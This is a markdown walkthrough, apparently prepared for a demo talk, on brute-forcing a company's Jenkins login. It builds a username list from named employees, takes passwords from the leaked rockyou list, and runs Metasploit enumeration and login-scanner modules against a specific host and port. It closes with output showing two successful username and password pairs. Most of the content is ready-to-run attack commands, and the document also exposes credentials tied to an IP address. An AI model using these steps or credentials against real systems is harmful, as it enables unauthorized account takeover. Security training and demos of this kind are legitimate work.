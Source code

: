 # Bruteforce Jenkins Login
This section aims to login to the company's Jenkins instance.
To do so, we'll prepare a list of usernames and check login with rockyou list.
Before login can be bruteforced, the login URL must be identified via BurpSuite.

## Open Questions
- how do I know the port
- how do I know the URL

## Prepare Usernamelist

```bash
mkdir -p /root/demotalk/jenkinsBrute/
cd /root/demotalk
git clone https://github.com/captain-noob/username-list-generator.git
cd username-list-generator
rm output.txt user.txt
nano user.txt
```

put the names into nano.
Dont take all names to not break too much bruteforce into
```
Kay Meyer
Robert Bartsch
Ricardo Pope
Jeffrey van der Linden
```

```bash
python3 userlistcreator.py
mv output.txt /root/demotalk/jenkinsBrute/userlist.txt
cd /root/demotalk/jenkinsBrute/
```

## Prepare Passwordlist
Let's use the end of rockyoulist as that contains the sophisticated passwords
It contains 14344392 leaked passwords

```bash
cd /root/demotalk/jenkinsBrute/
sed -n 14342050,14342075p /usr/share/wordlists/rockyou.txt > /root/demotalk/jenkinsBrute/passwordlist.txt
```
## Enum Module
Let's get some details of Jenkins

```bash
msfconsole
use auxiliary/scanner/http/jenkins_enum
set RHOSTS jenkins.test.nevervictimconsult.xyz
set RPORT 8080
set TARGETURI /
exploit
```

## Login Scan Module


#### Get Login URL
use Burpsuite

### Prepare Options
prepare the exploit

```bash
msfconsole
use auxiliary/scanner/http/jenkins_login
set RHOSTS jenkins.test.nevervictimconsult.xyz
set RPORT 8080
set USER_FILE /root/demotalk/jenkinsBrute/userlist.txt
set PASS_FILE /root/demotalk/jenkinsBrute/passwordlist.txt
set LOGIN_URL j_spring_security_check
```
There will be two successful attempts

```bash
[+] 34.159.77.191:8080 - Login Successful: Robert.Bartsch:!@#$%1234pacr1234!@#$%
[+] 34.159.77.191:8080 - Login Successful: Jeffrey_van_d_Linden:!@#$%67890QAZwsxh
```
